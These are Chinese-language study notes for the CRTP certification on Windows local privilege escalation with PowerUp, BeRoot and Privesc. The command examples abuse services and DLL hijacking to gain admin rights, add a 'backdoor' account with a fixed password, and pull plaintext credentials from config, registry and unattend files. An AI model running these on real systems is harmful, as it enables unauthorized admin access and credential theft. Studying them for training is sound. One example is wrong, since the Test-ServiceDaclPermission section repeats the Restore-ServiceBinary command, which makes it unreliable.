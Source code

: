 # 思路
CRTP涉及到的本地特权提升方法

1. 缺失补丁
2. 自动部署和明文自动登录密码
3. AlwaysInstallElevated(任何用户都可以作为系统管理员运行 MSI)（ AlwaysInstallElevated (Any user can run MSI as SYSTEM)）
4. 配置错误的服务
5. DLL 劫持
6. etc

总的来说涉及到提权的种类略少于OSCP的要求，可参考[这里](https://github.com/maxzxc0110/hack-study/blob/main/%E6%8F%90%E6%9D%83/Windows%20PrivEsc%20Arena.md)总结的一部分windows本地提权方法

## 需要掌握的三个自动枚举脚本
1.  PowerUp（重点）
2.  BeRoot
3.  Privesc

## 全盘扫描
PowerUp
```
Invoke-AllChecks
```

BeRoot
```
.\beRoot.exe
```

Privesc
```
Invoke-PrivEsc
```


# PowerUp

##  Service Enumeration(服务枚举)
```
Get-ServiceUnquoted             该模块返回包含空格但是没有引号的服务路径的服务
Get-ModifiableServiceFile       该模块返回当前用户可以修改服务的二进制文件或修改其配置文件的服务
Get-ModifiableService           该模块返回当前用户能修改的服务
Get-ServiceDetail               该模块用于返回某服务的信息，用法: Get-ServiceDetail -servicename  服务名
```

## Service Abuse(服务滥用) 
```
Invoke-ServiceAbuse          该模块通过修改服务来添加用户到指定组，并可以通过设置 -cmd 参数触发添加用户的自定义命令
Write-ServiceBinary          该模块通过写入一个修补的C#服务二进制文件，它可以添加本地管理程序或执行自定义命令，Write-ServiceBinary与Install-ServiceBinary不同之处自安于，前者生成可执行文件，后者直接安装服务  
Install-ServiceBinary        该模块通过Write-ServiceBinary写一个C#的服务用来添加用户，
Restore-ServiceBinary        该模块用于恢复服务的可执行文件到原始目录，使用：Restore-ServiceBinary -servicename 服务名
```

根据Get-ModifiableService枚举的结果，使用Invoke-ServiceAbuse，把当前账号添加到本地管理员组
```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student366'
```


## DLL Hijacking(DLL注入) 
```
Find-ProcessDLLHijack       该模块查找当前正在运行的进程潜在的dll劫持机会。
Find-PathDLLHijack          该模块用于检查当前 %path% 的哪些目录是用户可以写入的
Write-HijackDll             该模块可写入可劫持的dll
```
输出一个包含命令的dll文件
```
Write-HijackDll  -Command 'whoami'
```


## Get-ApplicationHost
从系统上的applicationHost.config文件恢复加密过的应用池和虚拟目录的密码。
```
get-ApplicationHost
get-ApplicationHost | Format-Table -Autosize # 列表显示
```

## Get-ModifiableFile
检查某个文件当前用户是否拥有修改权限，并返回有权限的文件路径
```
 '"E:\temp\123123.xlsx" -f "C:\LibAntiPrtSc_ERROR.log"' | Get-ModifiableFile
```


## Get-RegAlwaysInstallElevated
检查AlwaysInstallElevated注册表项是否被设置，如果被设置，意味着的MSI文件是以system权限运行的
```
Get-RegAlwaysInstallElevated
```


## Get-RegAutoLogon
检测Winlogin注册表AutoAdminLogon项有没有被设置，可查询默认的用户名和密码。与msf windows_autologin.rb模块相同。
```
Get-RegAutoLogon
```

## Get-ServiceDetail
返回某服务的信息
```
Get-ServiceDetail -ServiceName Dhcp #获取DHCP服务的详细信息
```

## Get-UnattendedInstallFile
检查几个路径，查找是否存在这些文件，在这些文件里可能包含有部署凭据。这些文件包括
```
c:\sysprep\sysprep.xml
c:\sysprep\sysprep.inf
c:\sysprep.inf
c:\windows\Panther\Unattended.xml
c:\windows\Panther\Unattend\Unattended.xml
c:\windows\Panther\Unattend.xml
c:\windows\Panther\Unattend\Unattend.xml
c:\windows\System32\Sysprep\unattend.xml
c:\windows\System32\Sysprep\Panther\unattend.xml
```

## Get-Webconfig
返回当前服务器上的web.config文件中的数据库连接字符串的明文。
```
get-webconfig 
get-webconfig | Format-Table -Autosize #列表显示
```


## Restore-ServiceBinary
恢复服务的可执行文件到原始目录
```
 Restore-ServiceBinary -ServiceName VulnSVC
```

## Test-ServiceDaclPermission
检查某个用户是否在一个服务有自由访问控制的权限，返回true或false。
```
Restore-ServiceBinary -ServiceName VulnSVC
```


## Write-UserAddMSI
生成一个安装文件，运行这个安装文件，则弹出添加用户的框(用msfvenom生成也可以)
```
Write-UserAddMSI
```

## Write-ServiceBinary
预编译C#服务的可执行文件。默认创建一个默认管理员账号。可通过Command定制自己的命令
```
Write-ServiceBinary -ServiceName VulnSVC # 添加默认账号
Write-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
Write-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123! # 指定添加用户，用户密码以及添加的用户组。
Write-ServiceBinary -ServiceName VulnSVC -Command "net ..." # 自定义执行命令
```


## Install-ServiceBinary
通过Write-ServiceBinary写一个C#的服务用来添加用户
```
Install-ServiceBinary -ServiceName DHCP
Install-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john"
Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123!
Install-ServiceBinary -ServiceName VulnSVC -Command "net ..."
```

## Invoke-Service
```
Invoke-ServiceDisable 禁用服务
Invoke-ServiceEnable 启用服务
Invoke-ServiceStart 启动服务
Invoke-ServiceStop 停止服务
```



